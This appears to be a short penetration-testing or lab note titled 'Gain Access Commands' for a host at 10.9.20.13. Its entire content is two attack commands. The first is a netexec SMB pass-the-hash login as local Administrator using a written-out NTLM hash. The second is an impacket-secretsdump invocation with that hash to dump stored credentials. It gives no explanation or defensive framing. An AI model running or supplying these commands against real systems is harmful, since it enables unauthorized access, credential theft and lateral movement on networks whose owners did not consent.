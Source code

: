 
# Gain Access Commands




### 10.9.20.13
```
netexec smb 10.9.20.13 -u Administrator -H 4e63f2ecad6ac1c809564e26ea764999 --local-auth

impacket-secretsdump Administrator@10.9.20.13 -hashes aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999

```


